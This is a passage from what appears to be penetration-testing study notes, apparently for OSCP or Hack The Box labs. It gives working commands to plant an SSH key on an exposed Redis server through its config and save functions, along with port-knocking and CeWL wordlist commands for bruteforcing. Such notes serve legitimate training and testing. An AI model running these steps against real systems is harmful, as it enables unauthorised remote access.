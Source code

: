 1. Generate a ssh public-private key pair on your pc: `ssh-keygen -t rsa`
2.  Write the public key to a file:

    ```bash
    (echo -e "\n\n"; cat ./.ssh/id_rsa.pub; echo -e "\n\n") > foo.txt
    ```
3. Import the file into redis: `cat foo.txt | redis-cli -h 10.10.10.10 -x set crackit`
4.  Save the public key to the `authorized_keys` file on redis server:

    ```bash
    root@Urahara:~# redis-cli -h 10.85.0.52
    10.85.0.52:6379> config set dir /home/test/.ssh/
    OK
    10.85.0.52:6379> config set dbfilename "authorized_keys"
    OK
    10.85.0.52:6379> save
    OK
    ```

#### Port Knocking

```bash
# TCP
knock -v 192.168.0.116 4 27391 159

# UDP
knock -v 192.168.0.116 4 27391 159 -u

# TCP & UDP
knock -v 192.168.1.111 159:udp 27391:tcp 4:udp
```

#### Misc

* Run autorecon
* [https://github.com/s0wr0b1ndef/OSCP-note/blob/master/ENUMERATION/enumeration](https://github.com/s0wr0b1ndef/OSCP-note/blob/master/ENUMERATION/enumeration)

#### IF NOTHING WORKS

* HTB Admirer Walkthrough: [https://www.youtube.com/watch?v=\_zMg0fHwwfw\&ab\_channel=IppSec](https://www.youtube.com/watch?v=_zMg0fHwwfw\&ab_channel=IppSec)

***

### Bruteforce

#### Directory Bruteforce

**Cewl:**

```bash
cewl -d 2 -m 5 -w docswords.txt http://10.10.10.10
```

* `-d depth`
* `-m minimum word length`
* `-w output file`
* `--lowercase` lowercase all parsed words (optional)
